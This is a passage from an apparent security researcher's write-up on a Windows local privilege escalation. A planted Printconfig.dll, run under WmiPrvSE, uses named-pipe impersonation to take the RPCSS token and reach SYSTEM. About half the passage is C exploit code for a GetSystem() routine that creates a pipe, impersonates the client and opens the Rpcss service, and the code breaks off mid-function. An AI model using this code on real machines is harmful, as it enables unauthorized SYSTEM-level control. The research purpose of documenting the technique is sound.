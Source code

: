 According to the documentation new thread is created with the primary token of WmiPrvSE.exe which has `NT AUTHORITY\NETWORK SERVICE` SID. Since I want to elevate to SYSTEM privileges I used the method described by James Forshaw in ["Sharing a Logon Session a Little Too Much"][5]. The blog post explains the method very well so I won't go into the detail here. I implemented the same method in Printconfig.dll with the help of [Faxhell](https://github.com/ionescu007/faxhell) tool which also utilizes it[[6]]. In summary, this method uses a named pipe impersonation trickery to get the token of **RPCSS** process which can be used for searching SYSTEM token in other processes. After finding the SYSTEM token, it is used to be impersonated by the current thread using **SetThreadToken()**. 

```c

BOOL GetSystem() {
	//Create Random Pipename
	WCHAR pipename[12] = { 0 };
	GenRandomString(pipename, 11);
	wprintf(L"\n[*] PipeName; \\\\.\\pipe\\%s", pipename);

	HANDLE hPipe;
	WCHAR server[512];
	char buffer[256];
	DWORD dwRead = 0;
	HANDLE hProc;

	HANDLE hPipe2;
	WCHAR server2[512];
	DWORD cbWritten = 0;

	HANDLE hToken;

	wsprintf(server, L"\\\\.\\pipe\\%s", pipename);
	wsprintf(server2, L"\\\\localhost\\pipe\\%s", pipename);

	hPipe = CreateNamedPipe(L"\\\\.\\pipe\\pipey",
		PIPE_ACCESS_DUPLEX | FILE_FLAG_FIRST_PIPE_INSTANCE,
		PIPE_TYPE_BYTE |
		PIPE_READMODE_BYTE |
		PIPE_WAIT |
		PIPE_ACCEPT_REMOTE_CLIENTS,
		PIPE_UNLIMITED_INSTANCES,
		4096,
		4096,
		NMPWAIT_USE_DEFAULT_WAIT,
		NULL);

	hPipe2 = CreateFile(L"\\\\localhost\\pipe\\pipey",
		GENERIC_READ | GENERIC_WRITE,
		0,
		NULL,
		OPEN_EXISTING,
		0,
		NULL);
	WriteFile(hPipe2, &hPipe, sizeof(hPipe2), NULL, NULL);
	ReadFile(hPipe, &hPipe, sizeof(hPipe), NULL, NULL);
	if (!ImpersonateNamedPipeClient(hPipe)) {
		printf("\n[-] ERROR impersonating the client: %d", GetLastError());
		return FALSE;
	}
	if (FAILED(GetServiceHandle(L"Rpcss", &hProc))) {
		printf("\n[-] ERROR GetServiceHandle %d", GetLastError());
		CloseHandle(hProc);
		return FALSE;
	}

	if (FAILED(GetSystemTokenFromProcess(hProc))) {
```

[1]: https://www.zerodayinitiative.com/blog/2020/10/27/cve-2020-16939-windows-group-policy-dacl-overwrite-privilege-escalation
[2]: https://decoder.cloud/2019/11/13/from-arbitrary-file-overwrite-to-system/ 
[3]: https://docs.microsoft.com/en-us/windows/win32/printdocs/openprinter2
[4]: https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createthread
[5]: https://www.tiraniddo.dev/2020/04/sharing-logon-session-little-too-much.html
[6]: https://github.com/ionescu007/faxhell/blob/master/ualapi/dllmain.c
[7]: https://www.ired.team/offensive-security/code-injection-process-injection/early-bird-apc-queue-code-injection;